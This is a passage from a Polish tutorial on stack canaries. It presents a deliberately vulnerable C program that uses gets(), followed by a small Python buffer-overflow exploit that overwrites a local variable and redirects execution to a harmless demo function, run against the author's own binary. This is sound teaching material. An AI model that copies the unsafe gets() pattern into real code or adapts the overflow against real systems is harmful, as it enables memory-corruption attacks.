 ##### Zastosowanie  w praktyce <a name="zastosowanie_kanarkow"></a>

W celu prezentacji działania kanarków stosu napisałem prosty program w C. Jak widać poniżej, zastosowana została podatna funkcja `gets`, która nie sprawdza długości wczytywanego ciągu znaków. W kodzie dodatkowo umieściłem zmienną `some_variable` oraz funkcję `malicious`. Poniższy kod skompilowałem w dwóch wersjach za pomocą gcc w wersji 10.2.0. Za pierwszym razem z flagą `-fno-stack-protector`, a potem z `-fstack-protector` w celu dodania kanarków stosu. Moim zadaniem będzie napisanie takiego eksploita, aby nadpisać wartość zmiennej `some_variable` oraz wykonać funkcję `malicious`. 

<font size=1>

```c
#include <stdio.h>
#include <stdlib.h>

void malicious() { printf("Code flow changed!!!\n"); }

int main(int argc, char **argv) {
  volatile int some_variable;
  char buffer[64];

  some_variable = 7;
  gets(buffer);

  if (some_variable != 7) {
    printf("Local variable modified!!!\n");
  }

  return 0;
}
```

</font>

Poniższy eksploit generuje ciąg znaków, który dzięki przepełnieniu bufora powinien nadpisać zmienną `some_variable` wartością `variable` oraz przekierować wykonanie kodu do adresu `0x401156`, czyli miejsca, w którym znajduje się funkcja `malicious`. 

<font size=1>

```python
import sys
import struct

buffor = b'\x41'*64
padding = b'\x42'*12
variable = b'\x43'*4
rbp = b'\x44'*8
ret = 0x401156

sys.stdout.buffer.write(buffor)
sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(variable)
sys.stdout.buffer.write(rbp)
sys.stdout.buffer.write(struct.pack("Q", ret))
```
